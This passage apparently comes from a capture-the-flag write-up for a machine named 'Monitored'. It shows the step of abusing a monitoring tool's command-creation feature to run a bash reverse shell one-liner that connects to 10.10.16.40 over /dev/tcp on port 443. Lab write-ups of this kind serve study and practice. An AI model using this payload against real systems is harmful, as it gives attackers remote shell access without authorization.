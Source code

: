 
![Create command](/assets/img/Monitored/Monitored_08.png)


next we fill in a reverse shell like the following into the new command. Then click on save, On the following page you need to press **apply configuration**  

```bash
bash -c '/bin/bash -l > /dev/tcp/10.10.16.40/443 0<&1 2>&1'
```
